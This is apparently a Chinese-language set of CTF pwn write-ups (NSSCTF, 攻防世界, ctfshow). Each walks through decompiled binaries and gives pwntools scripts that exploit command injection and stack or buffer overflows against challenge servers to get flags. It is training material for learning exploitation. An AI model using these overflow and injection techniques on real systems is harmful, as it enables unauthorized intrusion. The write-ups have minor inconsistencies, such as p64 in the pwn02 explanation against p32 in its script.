

编写exp

```
from pwn import*
p = remote('node4.anna.nssctf.cn',28808)
data = p.recv() 
p.sendline('tac$IFS$1flag')
p.interactive()
```





### [NISACTF 2022]ReorPwn?

查看一下附件

checksec 1



64位的，ok



找到main函数，F5

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("evcexe ot tnaw uoy tahw em lleT:");
  gets(a);
  fun(a);
  system(a);
  return 0;
}
```

evcexe ot tnaw uoy tahw em lleT

Tell me what you want to execve

告诉我你想要执行什么

双击fun



双击system



分析一下程序，用户的输入被存到了变量a中，a经过fun函数后，传入system函数执行，也就是说，command就是a，也就是用户的输入。

直接galf tac得到flag



编写exp

```
from pwn import*
p = remote("node4.anna.nssctf.cn",28447)
p.sendline('galf tac')
p.interactive()
```



NSSCTF{ee0c2423-7c37-4e3a-a969-430fbaf645d2}

## **攻防世界刷题**

## get\_shell





这题直接给shell了

exp

```
from pwn import*
p = remote('61.147.171.105',59682)
p.sendline('cat flag')
p.interactive()
```



cyberpeace{8cd678c722f48327a69b2661ae8956c8}

## hello\_pwn

checksec一下



ok，64位的

```
{
  alarm(0x3Cu);
  setbuf(stdout, 0LL);
  puts("~~ welcome to ctf ~~     ");
  puts("lets get helloworld for bof");
  read(0, &unk_601068, 0x10uLL);
  if ( dword_60106C == 1853186401 )
    sub_400686();
  return 0LL;
}
alarm(0x3Cu)：
调用alarm函数设置了一个定时器，其值为0x3Cu（60秒）。如果程序在60秒内没有结束，会收到一个SIGALRM信号。这通常用于防止程序挂起。
 
setbuf(stdout, 0LL)：
关闭stdout的缓冲，使得所有输出都立即写入。这通常用于调试，以便实时查看程序输出。
 
puts（）函数：
使用puts函数输出两条欢迎信息。
 
read(0, &unk_601068, 0x10uLL)：
这是漏洞的关键点。read函数从文件描述符0（通常是标准输入stdin）读取0x10uLL（16字节）的数据到unk_601068这个地址。这里有几个问题：
 
unk_601068可能是一个未初始化的或未分配足够空间的缓冲区，导致缓冲区溢出。
读取的字节数0x10uLL是硬编码的，没有考虑实际缓冲区的大小。
如果用户输入超过16字节的数据，会覆盖缓冲区后面的内存区域，可能包括其他变量的值或者函数的返回地址。
if ( dword_60106C == 'nuaa' ) sub_400686()：
这里检查dword_60106C（unk_601068后面的一个双字）是否等于'nuaa'。这个检查看起来是为了确保某种条件满足时才调用sub_400686()。然而，由于缓冲区溢出漏洞，攻击者可以故意构造输入来覆盖dword_60106C的值，从而控制程序的执行流程。
 
sub_400686()函数：该函数返回一个 64 位整数（__int64）。函数的主体做了两件事情：
 
system("cat flag.txt");：这行代码调用了 system 函数，该函数执行传递给它的字符串参数作为 shell 命令。在这里，它尝试运行 cat flag.txt 命令，这个命令在 Unix-like 系统（比如 Linux）上用于显示 flag.txt 文件的内容。如果该文件存在且可读，它的内容将被输出到标准输出（通常是终端或控制台）。
 
return 0LL;：这行代码表示函数执行成功，并返回整数值 0。LL 后缀用于明确表示这个整数值是一个 64 位整数。
```

read(0, &unk\_601068, 0x10uLL); 读取数据if ( dword\_60106C == 1853186401 ) 判断值是否相等

来看你一下这两行代码

if 这个->dword\_60106C == 1853186401

当上述的条件判断 if 语句中的条件满足，也就是 dword\_60106C 的值确实等于 1853186401 时，会执行 sub\_400686() 这个函数调用。

双击点开看看



会执行cat flag命令

可以分析得到：当unk\_601068 = dword\_60106C时，得到flag

双击dword\_60106C，定位到这里



dword\_60106C与unk\_601068相差4个字节

编写exp

```
from pwn import*
p = remote('61.147.171.105',57285)
p.sendline(b'a'*4+p64(1853186401))
p.interactive()
```

payload=b'a'\*4+p64(1853186401)

解读

b:字节类型 #python3脚本中的，python2的可以去掉

4 #四个字节，dword\_60106C与dword\_60106C相差4个字节

p64 #64位的

1853186401 #dword\_60106C == 1853186401，这个值要等于unk\_601068的值



cyberpeace{0d34d62bdc19f237ee4906a664260c63}

## **ctfshow刷题**

## pwn02

32位的





双击pwnme这个函数



fgets函数，栈溢出



s的地址是-9，目标r的地址是4



这里有一个stack函数



地址是0x804850F

payload：

payload = b'a'\*(0x9+4) + p64(0x0804850F)

exp

```
from pwn import*
p = remote('pwn.challenge.ctf.show',28185)
payload = b'a'*(0x9+4) + p32(0x0804850F)
p.sendline(payload)
p.sendline('cat flag')
p.interactive()
```



ctfshow{95cc7be7-bc2d-412b-9633-7131b3b507c3}

## pwn05

32位的



F5main函数之后



双击welcome



双击s



s的地址是-14，目标地址r是4



getFlag的地址是：



0x8048486

构造payload

payload=b"a"\*(0x14+4)+p32(0x08048486)

exp

```
from pwn import*
p = remote('pwn.challenge.ctf.show',28169)
payload=b"a"*(0x12+6)+p32(0x08048486)
p.sendline(payload)
p.sendline('cat flag')
p.interactive()
```



ctfshow{33456f1e-e589-4481-8e0c-465b3317b85d}
